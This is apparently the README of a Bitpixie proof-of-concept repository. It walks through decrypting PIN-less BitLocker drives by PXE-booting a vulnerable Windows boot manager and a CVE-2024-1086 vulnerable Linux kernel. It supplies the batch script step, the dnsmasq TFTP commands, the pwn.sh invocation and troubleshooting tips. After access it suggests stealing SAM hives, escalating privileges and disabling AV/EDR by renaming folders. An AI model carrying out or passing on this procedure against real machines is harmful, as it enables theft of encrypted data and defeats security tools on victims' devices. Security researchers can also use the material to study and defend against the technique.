 # Another Bitpixie PoC

No need to open up computers to decrypt and mount (PINless) Bitlocker partitions anymore, you just need a LAN cable and understand what you are doing.   

Many thanks to th0mas from Neodyme for his articles on the matter. See https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver and https://neodyme.io/en/blog/bitlocker_why_no_fix/.

## Exploit

- Put `create_modded_bcd.bat` into a USB stick which you'll plug into the target device (or use an SMB share if USB is completely disabled).
- Get a Windows Recovery shell. Can be achieved by pressing Shift while clicking "restart" from the Windows login screen, or by typing "shutdown /r /o /t 0" in a terminal if you're logged in.
- Once in the recovery shell, get into your USB disk and execute the script ("e:" is wherever your USB disk was mounted):  
    ```
    e:
    create_modded_bcd.bat
    ```
- Then, move the newly created `BCD` file from your USB disk (or SMB share) into the `TFTP-root/Boot/` folder on your Linux attacking device.
- Now plug a LAN cable between your device and the target and configure a quick LAN network with TFTP support ($ABS_TFTP_ROOT corresponds to the TFTP-root folder of this repo):
    ```
    sudo dnsmasq --no-daemon \
    --interface="$INTERFACE" \
    --dhcp-range=10.13.37.100,10.13.37.101,255.255.255.0,1h \
    --dhcp-boot=bootmgfw.efi \
    --enable-tftp \
    --tftp-root="$ABS_TFTP_ROOT" \
    --log-dhcp
    ```
* Make sure your Ethernet interface is configured:
    ```
    sudo ifconfig $INTERFACE 10.13.37.1
    sudo ifconfig $INTERFACE up 
    ```
* Trigger PXE boot on the target device. Can generally be done in two ways:
    * From the recovery screen, select "use a device" and boot from something that looks like "IPv4 Network" (name can vary)
    * After powering on, press F12 (HP) or whichever key triggers PXE boot
* If everything goes well, the target device will load a grub after a few seconds (up to a minute maybe) and you can choose to boot into Alpine Linux
* Then log in as "root" when the initrd login prompt appears and do the following:
    ```
    # If you want an AZERTY keyboard
    loadkeys fr

    # Bitlocker partition generally is on /dev/nvme0n1p3 but it can vary
    ./pwn.sh /dev/nvme0n1p3
    ```
* Now the decrypted partition should be under mnt/, enjoy! You could use it to copy the SAM hives, modify exe paths for privesc, rename AV/EDR folders so they stop working, ...
* **Do not forget to umount**

## PXE server
 TFTP-root/ will be your serving TFTP folder for the PXE boot. You'll only need to copy paste the modified BCD file into Boot/, everything else should be left untouched.

There are 3 subfolders:
- **EFI/** : replicates the EFI boot partition. Generally contains a bunch of useless files, here I kept it simple and only left EFI/Microsoft/Boot/bootmgfw.efi, which is the only file needed
- **Boot/** : contains the BCD registry file that you crafted
- **grub/** : contains the grub configuration which loads the Linux initramfs and kernel

As for the files:
- **alpine-initrd.xz**: Alpine Linux filesystem with everything you need
- **bootmgfw.efi**: a vulnerable Windows boot file from before 2022. The first file that the target device will load during PXE boot
- **debian-kernel-514**: vulnerable kernel that allows us to read the VMK in memory
- **grubx64.efi**: grub boot file that loads the grub/grub.cfg and enables you to boot into Linux
- **shimx64.efi**: shim boot file that loads the grubx64.efi file

## Tips
* File names ARE case sensitive when booting via PXE, so if the target device is looking for BOOTMGFW.EFI instead of bootmgfw.efi, rename it as such.
* If you can't use a keyboard on the target device (which is likely if this isn't a laptop and keyboards are external devices), you can just use SSH to connect to it and run the exploit.
* You won't have write access to the Bitlocker partition if you haven't shut down the Windows client properly (Windows hibernation system). Make sure you don't hold the power button and force the shutdown. If you want to be safe, use `shutdown /s /t 0` (shutdown) or `shutdown /r /o /t 0` (reboot) or just click "shut down" or "restart" if you aren't logged in (and wait properly)
* Some hardware makes it so NVMe disks are not recognized sometimes. This can be due to Intel Volume Management Device (VMD) or other reasons. Using a different kernel version that is still vulnerable to CVE-2024-1086 has proven useful in some cases, e.g. kernel version 6.1.0-17 (which is included in this repo as a backup somewhere).
* If PXE is working fine but you're getting an empty blue screen, just press ESC to skip to the grub. Might indicate there is an issue somewhere though.
* If absolutely no 3rd party distribution is allowed to boot (the shimx64.efi file not properly going through PXE can be diagnostic of that) because Secure Boot 3rd party certificates are not allowed, you will have to read the memory from Windows instead. This project seems to have made some progress on a WinPE exploit: https://github.com/martanne/bitpixie. 
* On AMD hardware, disabling SVM virtualization in the BIOS might be necessary to boot Linux. If you cannot turn it off, see previous point for how to exploit from a Windows partition.

## Unexploitable cases
This particular exploit will not work in the following scenarios (but TPM sniffing and lesser-known software exploits might still do):
* A PIN or key file is required to unlock the drive.
* PXE boot is completely disabled and you also cannot boot via USB (otherwise you could try using a USB-Ethernet dongle). You could theoretically reset the UEFI from the motherboard if PXE is allowed by default, but that is risky.
* Any Bitlocker configuration (e.g., Bitlocker Legacy) where other PCRs than 7 & 11 are used (run the following command with admin privileges if you can, to verify: `manage-bde -protectors -get c:`)
* KB5025885 is installed (unlikely).
* The bootloader is signed with something else than the 2011 Secure Boot certificate (unlikely). If you're logged in you can directly check the signature of bootmgr.efi in C:\Windows\Boot\EFI\ or after mounting the EFI partition from the recovery shell (via the `mountvol s: /s` command).